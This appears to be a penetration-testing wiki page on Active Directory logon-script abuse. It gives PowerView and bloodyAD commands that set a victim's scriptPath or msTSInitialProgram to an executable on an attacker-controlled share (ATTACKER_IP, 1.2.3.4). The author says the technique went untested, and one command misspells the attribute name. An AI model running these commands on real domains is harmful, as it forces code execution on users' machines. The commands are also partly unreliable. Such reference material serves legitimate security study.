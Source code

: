 # Logon script

{% hint style="danger" %}
It is worth noting that during my tests, I couldn't find a way to practice this scenario. Since I didn't find practical enough resources on the Internet, feel free to reach out if you manage to exploit this.
{% endhint %}

This abuse can be carried out when controlling an object that has a `GenericAll` or `GenericWrite` over the target, or a `WriteProperty` premission over the target's logon script attribute (i.e. `scriptPath` or `msTSInitialProgram`).

The attacker can make the user execute a custom script at logon.

{% tabs %}
{% tab title="Windows" %}
This can be achieved with [Set-DomainObject](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject/) ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module).

```bash

Set-DomainObject testuser -Set @{'msTSTnitialProgram'='\\ATTACKER_IP\share\run_at_logon.exe'} -Verbose

Set-DomainObject testuser -Set @{'scriptPath'='\\ATTACKER_IP\share\run_at_logon.exe'} -Verbose
```
{% endtab %}

{% tab title="Windows/UNIX-like" %}
It can also be achieved with a python tool as [bloodyAD](https://github.com/CravateRouge/bloodyAD).
```bash
bloodyAD --host 10.10.10.10 -d example.lab -u hacker -p MyPassword123 set object vulnerable_user msTSInitialProgram -v '\\1.2.3.4\share\file.exe'
bloodyAD --host 10.10.10.10 -d example.lab -u hacker -p MyPassword123 set object vulnerable_user msTSWorkDirectory -v 'C:\'

# or
bloodyAD --host 10.10.10.10 -d example.lab -u hacker -p MyPassword123 set object vulnerable_user scriptPath -v '\\1.2.3.4\share\file.exe'
```
{% endtab %}

{% endtabs %}